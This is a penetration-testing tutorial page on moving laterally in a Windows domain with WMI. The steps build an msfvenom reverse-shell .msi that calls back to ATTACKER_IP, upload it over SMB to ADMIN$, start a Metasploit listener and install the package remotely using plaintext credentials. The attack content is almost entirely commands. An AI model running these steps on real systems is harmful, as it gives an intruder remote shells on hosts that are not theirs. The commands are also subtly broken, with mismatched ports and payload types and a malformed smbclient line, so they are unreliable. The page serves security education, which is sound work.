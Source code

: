 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com -L '//iis.test.com'
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.exe -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

a. Create WMI session

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-CimSession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> ...
```
{% endcode %}

